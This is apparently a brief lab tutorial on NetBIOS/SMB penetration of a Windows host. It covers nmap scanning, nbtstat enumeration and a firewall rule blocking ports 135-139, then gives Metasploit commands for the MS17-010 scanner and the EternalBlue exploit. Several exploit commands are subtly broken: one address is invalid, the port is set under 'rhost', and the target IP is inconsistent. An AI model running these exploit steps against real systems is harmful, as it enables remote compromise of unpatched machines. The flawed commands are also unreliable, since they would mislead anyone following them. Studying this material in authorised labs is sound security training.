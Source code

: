 # NetBIOS/SMB Penetration on Windows

---

### Scanning open port for NetBIOS Enumeration

> You will scan the target network for open TCP and UDP ports and protocol.

```bash
nmap -sT -sU 192.168.1.128
```

#### Ports That Open

### 

## You Can Enumerate The Network Using Nbtstat

```bash
nbtstat -a 192.168.1.128
```

### Hardening The Targeted System

#### Open Windows Firewall Settings

#### Filtering Ports 135-139

> 1. Click on Inbound Rules
> 2. Click NEW RULE
> 3. Click Button for port to create new rule \(TCP or UDP\)
> 4. Click Next
> 5. Click UDP port to apply rule
> 6. Click next
> 7. Chose Block Connection

#### Scan Target System Again

```
nbtstat -a 192.168.1.128
```

#### 

## Exploit Target System Using Metasploit

```
msf > search smb_ms17_010

msf > Use auxiliary/scanner/smb/smb_ms17_010

msf auxiliary(smb_ms17_010) > set rhost 192.168.1.28

msf auxiliary(smb_ms17_010) > set port 445

msf auxiliary(smb_ms17_010) > exploit
```

### Exploit Results

> From the results you will see that the system is vulnerable to the scan
>
> * **rhost** is the target system IP address
> * **lhost** is your system IP address

```
search smb_ms17_010_eternalblue

use exploit/windows/smb/ms17_010_eternalblue

msf exploit(ms17_010_eternalblue) > set rhost 192.168.1.1.128

msf exploit(ms17_010_eternalblue) > set rhost 445

msf exploit(ms17_010_eternalblue) > set lhost 192.168.1.115

msf exploit(ms17_010_eternalblue) > exploit
```











